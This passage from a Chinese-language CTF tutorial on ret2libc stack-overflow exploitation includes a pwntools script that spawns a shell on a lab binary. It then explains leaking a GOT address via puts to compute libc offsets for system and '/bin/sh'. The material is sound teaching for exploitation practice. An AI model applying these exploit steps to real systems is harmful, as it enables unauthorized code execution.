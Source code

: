 ```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2libc2')

gets_plt = 0x08048460
system_plt = 0x08048490
buf2 = 0x804a080
payload = flat(
    ['a' * 112, gets_plt, system_plt, buf2, buf2])
sh.sendline(payload)
sh.sendline('/bin/sh')
sh.interactive()
```

<a name="3485065a"></a>
### 难度三：

<a name="79908a99-2"></a>
#### 例题初探：

![](https://img-blog.csdnimg.cn/5eae248302df4656a88888bc6a69b2ba.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6IuP55KD5Y-q5oOz5YiS5rC0,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=XqdcF&originHeight=293&originWidth=746&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />存在栈溢出。<br />![](https://img-blog.csdnimg.cn/db75faf7c6a44d2cbc9a73d148007cd5.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6IuP55KD5Y-q5oOz5YiS5rC0,size_13,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=YwJlr&originHeight=309&originWidth=490&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />没有system函数。<br />![](https://img-blog.csdnimg.cn/9b4d003355f44b689461b40e70b5b1fd.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6IuP55KD5Y-q5oOz5YiS5rC0,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=d7Unh&originHeight=227&originWidth=966&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />没有/bin/sh字符串。<br />/bin/sh字符串我们可以用前面的方法写入，但system函数是无法写入的。所以我们换了一种方法，在linux延迟绑定机制中，当程序调用库函数时，会将libc.so文件中的函数地址写到程序的got表中，调用时会跳转到got表所写的地址。那么我们如果要调用system函数，就要知道他的got表中的地址，got表中的地址指的就是当系统将libc（动态链接库）加载到内存中时，库中的函数的地址。但libc被加载到的内存的位置是随机的，我们无从得知。<br />但是，同一版本的libc的两个库函数在libc中的相对位置是不变的，所以如果我们可以知道一个已经执行过的函数的got表地址，然后确定libc的版本，就可以加上和system函数的偏移，从而得到system函数的真实地址，即got表地址。<br />碰巧的是，我们拥有一个puts函数，我们可以用puts函数，将一个已经执行过的函数的got表地址打印出来，然后再根据地址获取libc版本，确定偏移，得到真实地址；并且，在libc中，存在着system函数和/bin/sh字符串，所以我们只需要考虑如何得到一个执行过的函数的真实地址即可，并不需要考虑如何写入/bin/sh字符串。<br />![](https://img-blog.csdnimg.cn/e6cb441a8092478b902193f1701ebc2a.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6IuP55KD5Y-q5oOz5YiS5rC0,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=kny5x&originHeight=582&originWidth=898&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

<a name="de00989c"></a>
#### 如何获取真实地址：

经过前面的讨论，我们需要通过栈溢出利用puts函数，打印puts函数的got表中的地址，然后获取偏移，得到system函数和/bin/sh字符串的地址，将puts函数的地址覆盖为system函数的地址。除了获取gots表中的地址之外，其他步骤都与前面的例题二类似。<br />根据函数的真实地址查找偏移的可以去下面的网站：<br />[https://libc.nullbyte.cat/](https://libc.nullbyte.cat/)<br />[https://libc.blukat.me/](https://libc.blukat.me/)<br />因为我们需要中途暂停程序去获取偏移，所以我们可以构造两个payload，第一个payload用于溢出利用puts函数打印出真实地址，然后程序等待我们的输入，第二个payload用于获取我们输入的system函数和/bin/sh的地址，然后进行利用，得到shell。<br />payload如下：<br />![](https://img-blog.csdnimg.cn/77d13db697754fa1a8f62e3847fff683.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6IuP55KD5Y-q5oOz5YiS5rC0,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=XBtht&originHeight=487&originWidth=787&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

<a name="d3bbef50-1"></a>
#### 完整过程：

<a name="562b019f-2"></a>
##### 首先checksec：

![](https://img-blog.csdnimg.cn/2da28a9f279244a387aa4937afacc97b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6IuP55KD5Y-q5oOz5YiS5rC0,size_18,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=zvW3b&originHeight=240&originWidth=676&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />32位程序，没有canary，PIE保护。

<a name="50f297a2"></a>
##### ida打开：

![](https://img-blog.csdnimg.cn/fe4f5738bcd04e6fbe3cd80ed056f189.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6IuP55KD5Y-q5oOz5YiS5rC0,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=SVxmI&originHeight=323&originWidth=738&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />![](https://img-blog.csdnimg.cn/ca2ee1177018424caa4a0bc4bba08b45.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6IuP55KD5Y-q5oOz5YiS5rC0,size_13,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=Qg2RC&originHeight=336&originWidth=500&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />![](https://img-blog.csdnimg.cn/638286dd0ede4ed99366f77ccaa3451f.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6IuP55KD5Y-q5oOz5YiS5rC0,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=bHyba&originHeight=200&originWidth=766&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />没有system函数，没有/bin/sh字符串。

<a name="20258611-1"></a>
##### 动态调试：
